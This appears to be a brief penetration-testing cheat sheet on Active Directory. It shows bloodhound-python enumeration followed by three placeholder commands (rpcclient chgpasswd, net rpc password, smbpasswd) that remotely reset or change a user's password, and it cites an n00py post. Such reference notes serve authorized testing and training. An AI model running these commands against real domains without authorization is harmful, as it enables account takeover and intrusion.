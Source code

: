 # Unix Shell

## 01 - Enumerate

> [!IMPORTANT] Conditions
> Write the conditions...

```
$ bloodhound-python -u <username> -p <password> -ns <domain_controller_IP> -d <domain>.<tld> -c All
```

## 02 - Exploit

```
rpcclient $> chgpasswd <username> <old_password> <new_password>
```

```
$ net rpc password "<target_username>" "<new_password>" -U <domain>/"<username>%<password>" -S <IP>
```

```
$ smbpasswd -U <target_username>%<password> -r <IP>
```

---
## References

### n00py

- [n00py: Resetting an Expired Password Remotely](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/)